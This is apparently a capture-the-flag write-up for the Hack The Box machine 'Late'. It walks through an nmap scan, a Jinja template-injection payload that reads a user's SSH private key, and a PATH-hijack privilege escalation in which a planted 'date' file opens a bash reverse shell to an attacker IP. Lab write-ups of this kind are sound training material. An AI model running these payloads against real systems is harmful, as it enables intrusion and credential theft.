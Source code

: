 # HTB - Late

## Nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-26 20:09 CEST
Nmap scan report for 10.129.52.249
Host is up (0.085s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 393.98 seconds
```

## Port 80

<img src="https://github.com/UllernJ/LateHTB/blob/main/Skjermbilde%20fra%202022-04-28%2021-59-57.png">

When we go around this page we'll find out that they have a subdomain called "images.late.htb/".
<p>To access this we need to add this to our known hosts @ /etc/hosts/.
<p>When we mess around here we discover that this a python app image reader. What we want to do now is to break it.
<p>A known payload to inject code into python apps is to use double brackets with code forexample:
  
 ```
  input: {{ 2*2 }}
  output: 4
```
  
What we would need to here to insert the payload to a image and make it readable to the reader and it would respond to that.
<p>With help of this <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection">page</a> with various payloads I managed to get user with this payload:
  
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /home/svc_acc/.ssh/id_rsa').read() }}
We extract the rsa key to ssh to the user without the password.

```

  <img src="https://github.com/UllernJ/LateHTB/blob/main/Skjermbilde%20fra%202022-04-28%2021-58-54.png">
  
## root

  First of I want to check for vulnerabilities with <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS">linpeas</a>.
  <p>I download it on my computer and make the "victim" download the linpeas from me. (because hackthebox wont let you download from github).
  <p>We can see that linpeas marks a folder named /usr/local/sbin.
  <p> Are we can find a file named ssh-alert.sh
    
```
    #!/bin/bash
RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"
BODY="
A SSH login was detected.
        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
```
    
 So what happens here is that root will call to this program every time someone ssh into the server.
<p>So what we can do here is exploit the programs <b>date</b> and <b>uname</b>. These programs are being called from path, so what we can do is to examine our path:

```
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
 
Lets say we create a file named date as a executeable here. Root would run it because of the PATH misconfiguration.
I create a file named date with a reverse shell:
```
  bash -i >& /dev/tcp/10.10.16.6/1234 0>&1
```
  
What we need to do now is just to ssh into the server agian and root will execute the ssh-alert.sh that also runs "date" (our reverseshell).
BOOM ROOT
<p><img src="https://github.com/UllernJ/LateHTB/blob/main/root.png">

 
  
